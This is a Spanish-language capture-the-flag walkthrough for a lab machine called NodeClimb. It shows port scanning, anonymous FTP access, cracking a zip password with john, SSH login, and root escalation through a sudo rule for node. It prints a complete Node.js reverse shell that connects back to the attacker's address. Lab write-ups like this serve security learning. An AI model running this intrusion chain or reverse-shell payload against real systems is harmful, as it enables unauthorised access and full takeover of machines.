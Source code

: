 # MÁQUINA NODECLIMB

Lo pirmero que tednremos que hacer será escanear los puertos que se encuentran abiertos dentro de la máquina con el comando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto.jpg)

Vemos que tenemos tanto el puerto 21 como el 22 abierto. En el puerto 21 podemos acceder con el usuario Anonymous sin contraseña y vemos que hay un zip que parece interesante, así que vamos a descargarlo en nuestra máquina atacante:

```shell
ftp anonymous@172.17.0.2
```

![FTP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto2.jpg)

Si intentamos descomprimir el zip vemos que nos pide una contraseña, la cuál no sabemos (aún jeje). Podemos utilizar la herramienta zip2john para obtener un hash:

```shell
zip2john secretitopicaron.zip > hash
```

![ZIP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto3.jpg)

Una vez tenemos el hash podemos obtener la contraseña usando john:

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![JOHN](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto4.jpg)

Ahora que ya tenemos la contraseña podemos descomprimir el zip, y vemos que contiene un usuario llamado mario y su contraseña:

![PASSWD](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto5.jpg)

Por lo que vamos a conectarnos por SSH a la máquina:

![SSH](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto6.jpg)

Una vez dentro de la máquina si hacemos un ls vemos que tenemos un script, el cuál esta vacío:

![SCRIPT](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto7.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar node como root acompañado del script que hemos visto antes. Así que vamos a intentar obtener una reverse shell como root gracias a ese script, para ello nos iremos a la página de RevShells y ahí seleccionaremos la opción de node.js #2 y pondremos nuestros datos:

![SUDO](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto8.jpg)

https://www.revshells.com/

```shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "172.17.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Y una vez guardado el script, nos ponemos en escucha y ejecutamos de la manera que nos dice el sudo -l:

```shell
sudo /usr/bin/node /home/mario/script.js
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto9.jpg)

Y ya somos root!!









